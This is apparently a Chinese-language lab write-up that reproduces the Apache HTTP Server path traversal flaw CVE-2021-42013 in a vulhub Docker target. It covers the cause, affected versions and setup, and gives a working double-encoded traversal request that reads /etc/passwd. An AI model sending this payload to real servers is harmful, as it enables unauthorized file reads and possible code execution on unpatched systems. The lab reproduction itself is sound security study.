 # Apache路径穿越漏洞（CVE-2021-42013）

## 漏洞原理

Apache HTTP Server 2.4.50 中对 CVE-2021-41773 的修复不够充分。攻击者可以使用路径遍历攻击将 URL 映射到由类似别名的指令配置的目录之外的文件。如果这些目录之外的文件不受通常的默认配置 “要求全部拒绝” 的保护，则这些请求可能会成功。如果还为这些别名路径启用了 CGI 脚本，则可以允许远程代码执行

## 影响版本

- Apache HTTP Server 2.4.49
- Apache HTTP Server 2.4.50

## 复现机器版本

攻击机：Ubuntu18.04

靶机：Ubuntu18.04 Docker version 20.10.10

## 漏洞复现

### 准备阶段 

#### 进入靶场，启动服务

```
cd /home/radiuscircle/vulhub/httpd/CVE-2021-42013
docker-compose build
docker-compose up -d
```

![image-20220708194241042](C:\Users\Gundam\AppData\Roaming\Typora\typora-user-images\image-20220708194241042.png)

#### 信息收集

查看端口

```
docker ps
```

![image-20220708194310387](C:\Users\Gundam\AppData\Roaming\Typora\typora-user-images\image-20220708194310387.png)

### 漏洞利用

访问IP：`http://192.168.177.131:8080/`

![image-20220708194349581](C:\Users\Gundam\AppData\Roaming\Typora\typora-user-images\image-20220708194349581.png)

burp抓包

![image-20220708194520022](Apache远程代码执行（CVE-2021-42013）.assets/image-20220708194520022.png)

构造payload

```
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![image-20220708195415853](Apache远程代码执行（CVE-2021-42013）.assets/image-20220708195415853.png)

得到passwd文件内容

### 关闭容器

```
docker-compose down
```

